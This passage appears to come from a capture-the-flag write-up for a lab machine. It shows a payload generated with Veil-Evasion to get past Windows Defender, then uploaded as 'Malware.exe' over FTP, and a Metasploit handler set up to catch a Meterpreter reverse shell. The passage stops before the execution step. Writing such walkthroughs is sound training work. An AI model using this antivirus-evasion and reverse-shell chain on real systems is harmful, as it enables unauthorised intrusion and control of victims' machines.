 ## Evading Windows Defender with Veil-Evasion
We will generate a payload with Veil and upload it to the FTP server, specifically to the *Intranet folder.*

<script id="asciicast-239315" src="https://asciinema.org/a/239315.js" async></script>  

I recommend you read the following [blog](https://hackingprofessional.github.io/Security/Evadiendo-un-firewall-con-Veil-Evasion/), in which I explain in a more detailed way the generation of this.  

After generating the *exe* we can upload via FTP to the Intranet folder.  
We know we have write permissions there from the instructions on the SharePoint Finance page from earlier.

{% highlight shell %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/smb]─[root@Arthorias]─[0]─[3178]
╰─[:)] # ftp 10.10.10.59
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:root): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd intranet
250 CWD command successful.
ftp> bin
200 Type set to I.
ftp> put Malware.exe
local: Malware.exe remote: Malware.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
4769528 bytes sent in 29.98 secs (155.3659 kB/s)
{% endhighlight %}  

Now we can start our handler in Metasploit and execute our payload via SQL.

{% highlight bash %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally]─[root@Arthorias]─[0]─[3508]
╰─[:)] # msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/handler) > set LPORT 6969
LPORT => 6969

msf5 exploit(multi/handler) > run
	
[*] Started reverse TCP handler on 10.10.14.7:6969
{% endhighlight %}  

The EXE would be executed in the following way.
